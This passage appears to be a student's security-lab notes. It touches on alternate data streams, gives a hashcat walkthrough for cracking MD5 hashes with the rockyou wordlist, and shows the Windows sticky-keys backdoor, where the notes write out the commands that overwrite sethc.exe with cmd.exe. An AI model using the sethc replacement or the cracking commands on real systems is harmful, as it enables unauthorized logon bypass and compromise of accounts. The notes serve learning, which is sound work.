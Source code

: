 As soon as this file is removed from the partition, the alt data stream gets dropped. There are tools for detecting ADSes, and when doing a full system scan, you may come across some defaults. Note that not all ADSes are malicious.

#### `hashcat` (Kali):

`hashcat` is a cli for cracking passwords via bruteforce or dictionary attacks. Let's open up our Kali distro.

**I also installed hashcat using homebrew on the Mac side, but the commands are essentially the same**

Let's open up the help file (like always). `hashcat -h`...

WHOA that's an exhaustive list! Let's break it down a little bit.

`-a` specifies attack mode. We're going to be using "Straight", so `-a 0`.

The first option you need to specify is `-m`. This signifies the hash type. It is referenced with a number, which can be found under the hash type section of the help file. We're using `md5` for this exercise, so we'll be putting `-m 0` for the hash type.

So far, our command should look like this:

```bash
hashcat -a 0 -m 0
```

Now, we need to specify the hash file we're trying to crack, the word list we're going to be running against it, and the rules (`-r`) we want `hashcat` to follow. I will be using the "rockyou" wordlist against a list of `md5` hashed passwords, using some nsa rules I picked up online. Now my command looks like this:

```bash
hashcat -a 0 -m 0 ./path/to/hash/file.txt ./path/to/wordlist.txt -r ./path/to/rules.rule ## could put `>> /path/to/file.txt` afterwards to print output for documentation.
```

I fired off the command and cracked 23.43% of the password list in 14 seconds. This exercise didn't require any special GPU to crack either because, a.) hashcat now works fairly well with CPUs instead of GPUs, and b.) the passwords were encrypted with `md5`.

As for documentation, you could either copypasta from the terminal or add `>>` followed by the `/path/to/report.txt`. As long as the information is taken down, it doesn't particularly matter which method you use.

#### `sethC`

`sethC` is a tool used for getting access to a system without logging on.

Every windows system has a native program called `sethC` in the system32 directory. It gets access to things like sticky keys when logging on. To take advantage of this, we can copy the original `sethC` file and name it something else. At the same time, we'll be replacing it with our own program, now named `sethC`. Now if you hit the sticky keys, this program is now called upon instead of the real `setchC`.
Let's try it out.

```bash
cd c:\windows\system32
copy sethc.exe sethc.exe.bak2
	1 file(s) copied.
## let's trying something funky:

copy cmd.exe sethc.exe
Overwrite sethc.exe? (Yes/No/All): y
	1 file(s) copied.
```

